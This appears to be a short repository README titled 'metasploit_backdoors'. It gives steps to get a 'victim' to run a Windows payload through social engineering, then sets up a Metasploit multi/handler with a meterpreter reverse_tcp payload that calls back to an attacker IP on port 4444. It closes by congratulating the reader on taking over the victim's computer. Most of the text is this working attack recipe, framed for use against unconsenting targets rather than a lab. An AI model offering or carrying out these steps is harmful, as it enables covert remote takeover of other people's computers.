 # metasploit_backdoors

A collection of various backdoors are listed here and there varieties .

 default settings
--

LHOST = 192.168.11.78
LPORT = 4444

 steps
--

1.Now here the social engineering works.Take the payload to victims computer.
2.Execute the windows file in victim's computer.
3.Fire up your metasploit 

```
 msfvenom
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set lhost 192.168.11.78
 set lport 4444
 exploit
```

**Congrats !** guys now you are successfully able to gain the meterpreter session
of victims computer.
type help for more details about victims computer


```
meterpreter>help
````
